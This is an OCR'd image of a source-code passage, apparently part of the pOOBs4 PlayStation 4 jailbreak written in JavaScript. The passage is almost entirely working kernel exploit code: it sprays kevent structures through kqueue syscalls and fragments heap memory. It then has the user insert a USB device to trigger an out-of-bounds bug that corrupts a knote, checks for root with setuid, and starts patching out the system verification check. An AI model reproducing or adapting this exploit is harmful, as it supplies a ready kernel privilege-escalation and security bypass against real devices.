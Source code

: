                 alert("invalid socket");
                while (1);
            }    
            //Spray kevents
            var kevent = p.malloc(0x20);
            p.write8(kevent.add32(0x0), that_one_socket);
            p.write4(kevent.add32(0x8), 0xFFFF + 0x010000);
            p.write4(kevent.add32(0xC), 0x0);
            p.write8(kevent.add32(0x10), 0x0);
            p.write8(kevent.add32(0x18), 0x0);
            //
            {
                for (var i = 0; i < NUM_KQUEUES; i++) {
                    chain.fcall(window.syscalls[363], kqueues[i], kevent, 0x1, 0x0, 0x0, 0x0);
                }
            }
            chain.run();    
            //Fragment memory
            {
                for (var i = 18; i < NUM_KQUEUES; i += 2) {
                    chain.fcall(window.syscalls[6], kqueues[i]);
                }
            }
            chain.run();    
            //Trigger OOB
            alert("Insert USB now! Click 'OK' when you see Unsupported USB notification! \n Remove the USB after Jailbreak Done...")
            setTimeout(() => {
            //Trigger corrupt knote
                {
                for (var i = 1; i < NUM_KQUEUES; i += 2) {
                    chain.fcall(window.syscalls[6], kqueues[i]);
                }
                }
                chain.run();    
                if (chain.syscall(23, 0).low == 0) {                
                    //cleanup fake knote & release locked gadgets/stack.
                    chain.fcall(window.syscalls[73], 0x4000, 0xC000);
                    chain.fcall(window.syscalls[325]);
                    chain.run();             
                    //This disables sysveri, see https://github.com/ChendoChap/pOOBs4/blob/main/patch.s for more info
                    var patch_buffer = chain.syscall(477, 0x0, 0x4000, 0x7, 0x1000, 0xFFFFFFFF, 0);
                    var patch_buffer_view = p.array_from_address(patch_buffer, 0x1000);